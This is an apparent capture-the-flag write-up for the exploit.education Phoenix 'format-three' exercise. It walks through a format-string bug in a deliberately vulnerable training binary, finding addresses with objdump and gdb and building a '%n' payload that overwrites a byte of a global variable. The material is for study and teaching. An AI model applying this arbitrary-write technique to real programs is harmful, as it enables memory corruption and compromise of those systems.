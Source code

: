 # FORMAT THREE (pwn, exploit.education, phoenix, format-string, set address with qword value)

Notes:
- source code given

## Enumeration
### Protections
As in every task in phoenix all protections are disabled (aslr as well):

```bash
$ checksec format-three
[*] './format-three'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

and the file we have to exploit is a 64 bit binary:

```bash
$ file format-three
files/format-three: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=a490eeb5423b20f15cc5bf98c5e8c1010a129b6c, with debug_info, not stripped
```

### Goal
The goal is obvious, we have to set `changeme` with `0x64457845`.

### Vulnerabilities
The program is vulnerable to format-string. It first reads user input into `buf`:

```c
if (read(0, buf, sizeof(buf) - 1) <= 0) {
    exit(EXIT_FAILURE);
}
bounce(buf);
```

 and then displays it inside `bounce` function:

 ```c
 void bounce(char *str) {
  printf(str);
}
```

## Exploit
We will want to overwrite the value under `0x64457845`. Printf let's us write to arbitrary location using `%n` type, which will set the value under provided address to number of bytes written so far:

```c
int x;
printf("1234%n", &x); // x will be set to 4
```

Ok, and what if our program looks like:

```c
printf("1234%n"); // what will get overwriten?
```

Well, `printf` doesn't validate the provided arguments. It just assumes they are valid. And how are arguments passed to functions on x86_64? Well, the first 6 are passed in: rdi, rsi, rdx, rcd, r8, r9 registers and the next ones are passed on stack.

So our program will overwrite the address stored under rsi register (as rdi keeps the format argument).


Ok, but how can we make the program to write to address of our choice? In this case the address of `changeme` variable?
Well, we can use `direct access` parameter which specifies the parameter to use for input. So `printf("1234%8$n")` would overwrite the second (8 - 6) value placed on stack with 0x4. And as our `buf` is also placed on the stack, we can make the program to get the address from the `buf`! And remember, we do control everything inside the `buf`.

That's exactly what we want to achieve! Let's try this out to overwrite the lsb of `changme` variable with 0x45.

First we have to find the address of `changme`. This can be done easly as binary was not compiled as PIE:

```c
objdump --syms format-three | grep changeme
000000000060104c g     O .bss	0000000000000004              changeme
```

Now let's check under gdb what is the offset between the `buf` and the `$rsp` register right before calling `printf`. This will be important!

```gdb
$ gdb -q format-three
gef➤  p &buf
$2 = (char (*)[4096]) 0x7fffffffcd40
$ gef➤  x/10i bounce
   0x4005c7 <bounce>:	push   rbp
   0x4005c8 <bounce+1>:	mov    rbp,rsp
   0x4005cb <bounce+4>:	sub    rsp,0x10
   0x4005cf <bounce+8>:	mov    QWORD PTR [rbp-0x8],rdi
   0x4005d3 <bounce+12>:	mov    rax,QWORD PTR [rbp-0x8]
   0x4005d7 <bounce+16>:	mov    rdi,rax
   0x4005da <bounce+19>:	mov    eax,0x0
   0x4005df <bounce+24>:	call   0x4004b0 <printf@plt>
   0x4005e4 <bounce+29>:	nop
   0x4005e5 <bounce+30>:	leave
gef➤ b *0x4005df
gef➤  c
Continuing.
Welcome, brought to you by https://exploit.education
lala
Breakpoint 1, 0x00000000004005df in bounce (str=0x7fffffffcd40 "lala\n") at format3.c:21
21	  printf(str);
gef➤ p $rsp
$2 = (void *) 0x7fffffffcd10
```

So the offset is: 0x7fffffffcd10 - 0x7fffffffcd40 = 48 = 6 * 8

Let's provide `%069x%14$nAAAAAA` + `\x4c\x10\x60\x00\x00\x00\x00\x00` as an input. Note that we had to pad the `format` string with 'A's to align stack address. Moreover we will overwrite the address passed as 13th argument. (14 = 5 + 6 + 2)

Our stack to look like this:

![](img/stack0.png)

And the printf is translated to:

```c
printf("%069x%14$nAAAAAA", random address from rsi, 000000000060104c);
```

Meaning that the program will first output some random address from rsi padded to 69 characters and then store value 69 under 000000000060104c.

Let's check if we are correct. Remember to escape '$' sign, as bash thinks it is special character:

```bash
$ python -c "print '%069x%14\$nAAAAAA' + '\x4c\x10\x60\x00\x00\x00\x00\x00'" | ./format-three 
Welcome, brought to you by https://exploit.education
0000000000000000000000000000000000000000000000000000000000000ffffcdc0AAAAAAL`Better luck next time - got 0x00000045, wanted 0x64457845!
```

Ha, well done! We have overwriten a byte of our choice.


## References
https://kevinalmansa.github.io/application%20security/Format-Strings/